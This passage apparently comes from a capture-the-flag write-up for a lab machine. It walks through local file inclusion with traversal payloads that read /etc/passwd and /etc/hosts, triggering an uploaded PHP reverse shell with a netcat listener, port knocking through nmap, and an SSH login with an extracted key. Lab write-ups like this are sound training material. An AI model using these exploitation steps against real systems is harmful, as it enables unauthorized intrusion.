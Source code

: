 These appear to be hints. I wasn't sure what the first one meant, but I found the secret folder in nineveh.png and I was able to exploit phpliteadmin to add a .php file.

Looking at the parameters in the URL string showed a file path and normally when I see this I test for LFI vulnerabilities. I started trying some different commands, "../../etc/passwd/", "..%2f...%2f..%2fetc/passwd", etc. I noticed that dropping the .txt from ninevehNotes showed an error which was interesting.

![image](https://user-images.githubusercontent.com/10210108/83319202-4937fc80-a20a-11ea-8983-ce5db292429e.png)

After playing around with a combination of different paths and commands I finally stumbled across something that worked.

```
http://10.10.10.43/department/manage.php?notes=/files/ninevehNotes/../../../etc/hosts
```

![image](https://user-images.githubusercontent.com/10210108/83319240-a0d66800-a20a-11ea-9da8-04b7f894716b.png)

Now that I had a way to access files I could execute the reverse shell that was uploaded earlier through phpliteadmin. I set up a netcat listener "nc -lvnp 4200" and updated the parameter to include path to /var/tmp/rshell.php

```
http://10.10.10.43/department/manage.php?notes=/files/ninevehNotes/../../../var/tmp/rshell.php
```

![image](https://user-images.githubusercontent.com/10210108/83319261-dd09c880-a20a-11ea-97fb-a0637a8ffda3.png)

I ran an automated enumeration tool called [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) and it found a configuration file for knockd which is a tool used for port knocking.

![image](https://user-images.githubusercontent.com/10210108/83319347-b7c98a00-a20b-11ea-8f7f-09de91d7f3c1.png)

Viewing /etc/knockd.conf shows the correct sequences for opening and closing ssh. 

![image](https://user-images.githubusercontent.com/10210108/83360822-20228380-a352-11ea-9292-c04cfc495cf0.png)

Using a bash for loop and nmap I performed the portknock. After the command completed I ran a top 1000 port scan to see if any ports were open.

```
for p in 571 290 911; do nmap -n -v0 -Pn --max-retries 0 -p $p 10.10.10.43; done
nmap -sT --top-ports 1000 10.10.10.43
```
Port 22 was now showing open.

![image](https://user-images.githubusercontent.com/10210108/83319397-23abf280-a20c-11ea-94c0-cebcd0b5b530.png)

I was then able to log on as amrois using the private key that was extracted from nineveh.png.

```
chmod 600 nineveh.priv
ssh -i nineveh.priv amrois@10.10.10.43
```
